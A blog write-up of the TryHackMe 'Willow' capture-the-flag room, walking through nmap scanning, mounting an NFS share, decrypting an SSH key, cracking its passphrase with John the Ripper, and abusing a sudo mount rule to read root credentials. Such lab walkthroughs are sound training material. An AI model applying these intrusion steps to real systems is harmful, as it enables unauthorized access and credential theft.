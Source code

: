 ```yaml
---
layout: default
title : Willow - Writeup
---
```


# [Main](https://bvr0n.github.io/) &nbsp;&nbsp;   [Contact](https://bvr0n.github.io/contact.html) &nbsp;&nbsp; [About Me](./aboutme.md) <br>

_**Nov 08, 2020**_

[Willow](https://tryhackme.com/room/willow) Writeup

## Nmap Scan :

```
bvr0n@kali:~/CTF/THM/Willow$ nmap -sC -sV 10.10.58.196
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 6.7p1 Debian 5 (protocol 2.0)
| ssh-hostkey: 
|   1024 43:b0:87:cd:e5:54:09:b1:c1:1e:78:65:d9:78:5e:1e (DSA)
|   2048 c2:65:91:c8:38:c9:cc:c7:f9:09:20:61:e5:54:bd:cf (RSA)
|   256 bf:3e:4b:3d:78:b6:79:41:f4:7d:90:63:5e:fb:2a:40 (ECDSA)
|_  256 2c:c8:87:4a:d8:f6:4c:c3:03:8d:4c:09:22:83:66:64 (ED25519)
80/tcp   open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Recovery Page
111/tcp  open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100003  2,3,4       2049/udp   nfs
|   100003  2,3,4       2049/udp6  nfs
|   100005  1,2,3      33045/udp   mountd
|   100005  1,2,3      50247/tcp   mountd
|   100005  1,2,3      53104/udp6  mountd
|   100005  1,2,3      58466/tcp6  mountd
|   100021  1,3,4      35887/udp6  nlockmgr
|   100021  1,3,4      36539/tcp   nlockmgr
|   100021  1,3,4      45263/tcp6  nlockmgr
|   100021  1,3,4      45612/udp   nlockmgr
|   100024  1          42988/tcp   status
|   100024  1          47886/tcp6  status
|   100024  1          53120/udp6  status
|   100024  1          57397/udp   status
|   100227  2,3         2049/tcp   nfs_acl
|   100227  2,3         2049/tcp6  nfs_acl
|   100227  2,3         2049/udp   nfs_acl
|_  100227  2,3         2049/udp6  nfs_acl
2049/tcp open  nfs_acl 2-3 (RPC #100227)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## RPC Enum :

```
bvr0n@kali:~/CTF/THM/Willow$ sudo showmount -e 10.10.58.196
[sudo] password for bvr0n: 
Export list for 10.10.58.196:
/var/failsafe *
```
```
bvr0n@kali:~/CTF/THM/Willow$ sudo mount -t nfs 10.10.170.153:/var/failsafe /mnt/ewf/ -nolock
bvr0n@kali:/mnt/ewf$ cat rsa_keys 
Public Key Pair: (23, 37627)
Private Key Pair: (61527, 37627)
```

## Web Enum :

After visiting the web page we can see a lot of encoded numbers, When we throw it all in [CyberChef](https://gchq.github.io/CyberChef/) we get this :
```
Hey Willow, here's your SSH Private key -- you know where the decryption key is!
```

Now the shared folder make sens, it's a private key, let's get it!! i grabbed all the numbers after the message we retireved and head here [RSA Calculator](https://www.cs.drexel.edu/~jpopyack/Courses/CSP/Fa17/notes/10.1_Cryptography/RSA_Express_EncryptDecrypt_v2.html) :

The modulus `N` was `37627` & The modulus `d` was `61527` (from the shared folder).

After grabbing the `RSA_Private_KEY`, now all we need is the password ! CRACKING TIME.

```
bvr0n@kali:~/CTF/THM/Willow$ /usr/share/john/ssh2john.py id_rsa > priv_rsa
bvr0n@kali:~/CTF/THM/Willow$ sudo john priv_rsa --wordlist=/home/bvr0n/Documents/rockyou.txt
[sudo] password for bvr0n: 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
**********       (id_rsa)
```

And we got the password for SSH, Let's login as `Willow`.

In the home directory there is a image that contains the flag, Let's get it :
```
willow@willow-tree:~$ cat user.jpg | base64
bvr0n@kali:~/CTF/THM/Willow$ cat b64_image | base64 -d > user.jpg
```
I took the original image and turn it into `base64`, then i created a new file and put it inside and decrypt it.

## Internal Enum :

Looks like we can mount as root without a password :
```
willow@willow-tree:/mnt/creds$ sudo -l
Matching Defaults entries for willow on willow-tree:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User willow may run the following commands on willow-tree:
    (ALL : ALL) NOPASSWD: /bin/mount /dev/*
```
I checked the `/dev`, this is where filesystems show up, i noticed a pretty weird one :

```
willow@willow-tree:/dev$ ls
autofs           dri            kmsg                null    shm       
block            fb0            log                 port    snapshot  
btrfs-control    fd             loop-control        ppp     snd       
char             full           mapper              psaux   stderr    
console          fuse           mcelog              ptmx    stdin     
core             ******_******  mem                 p
```
```
willow@willow-tree:/mnt$ sudo mount /dev/******_****** /mnt/creds/
willow@willow-tree:/mnt$ cd /mnt/creds/
willow@willow-tree:/mnt/creds$ cat creds.txt 
root:7QvbvB********
willow:U0ZZJL********
```

And we got ROOT.

For the root flag, i struggled at first but apparently it was inside the image we retireved earlier -_-
```
bvr0n@kali:~/CTF/THM/Willow$ steghide extract -sf user.jpg 
Enter passphrase: 
wrote extracted data to "root.txt".
```

<br>
best regards

[bvr0n](https://github.com/bvr0n)


<br>
[back to main()](../../index.md)

<br>
